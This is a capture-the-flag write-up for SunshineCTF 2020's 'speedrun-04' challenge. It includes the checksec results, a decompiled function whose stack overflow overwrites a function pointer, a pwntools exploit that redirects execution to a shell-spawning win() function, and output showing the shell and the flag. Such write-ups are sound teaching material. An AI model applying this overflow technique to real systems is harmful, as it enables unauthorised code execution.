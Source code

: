 # **speedrun-04**
## Task
nc chal.2020.sunshinectf.org 30004
File: chall_04
Tag: binary exploitation 

## Solution

## Checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* No Canary assume BOF
* No PIE assume ROP
* System 64 bit
  
### Decompile with ghidra
```c
void vuln(void)
{
  char local_48 [56];
  code *local_10;
  
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}
void win(void)

{
  system("/bin/sh");
  return;
}
```
Easy challenge with the ROP, just overwrite the `local_10` value with `win` address
`local_10` is at `0x48-0x10` then the `win` address

### Exploit
```python
from pwn import *
binary = context.binary = ELF('./chall_04')
payload = b'a'*(0x48-0x10)
payload += p64(binary.sym.win)
p = remote('chal.2020.sunshinectf.org',30004)
p.sendline('IxZ')
p.sendline(payload)
p.interactive()

```

### Output
```
[*] '/home/kali/speedrun_sunshineCTF2020/chall_04'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30004: Done
[*] Switching to interactive mode
Like some kind of madness, was taking control.
$ ls
chall_04
flag.txt
$ cat flag.txt
sun{critical-acclaim-96cfde3d068e77bf}
```

